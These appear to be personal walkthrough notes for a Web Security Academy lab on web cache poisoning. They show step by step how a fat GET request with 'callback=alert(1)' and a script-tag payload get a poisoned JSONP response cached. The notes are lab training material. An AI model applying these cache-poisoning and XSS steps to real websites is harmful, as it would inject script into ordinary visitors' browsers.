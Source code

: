 ```bash
<link rel="canonical" href='//0a03001804e10b28c0f2020f00400051.web-security-academy.net/?check=1234'/>

Add to body:

check=<script>alert(1)</script>

Response:

HTTP/1.1 200 OK

X-Cache: hit

Go to: Target -> Site map -> js -> geolocate.js -> callback=setCountryCookie

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
setCountryCookie5({"country":"United Kingdom"}

Send to repeater

Change:

GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1

To

GET /js/geolocate.js?callback=setCountryCookie5 HTTP/1.1

Response:

X-Cache: hit

setCountryCookie5({"country":"United Kingdom"});

Change:

GET /js/geolocate.js?callback=setCountryCookie5 HTTP/1.1

To

GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1

(it seems the lab only completes if you remove any additional content from the above 'callback=setCountryCookie')
(The response would not change for a period of time unless I appended the 5 to 'callback=setCountryCookie' along with adding the below content and also ensuring the response contained 'X-Cache: hit')
Add to body:

callback=alert(1)

Send
Ensure the response includes:

X-Cache: hit

Go to:

https://0a03001804e10b28c0f2020f00400051.web-security-academy.net/

Refresh the page

```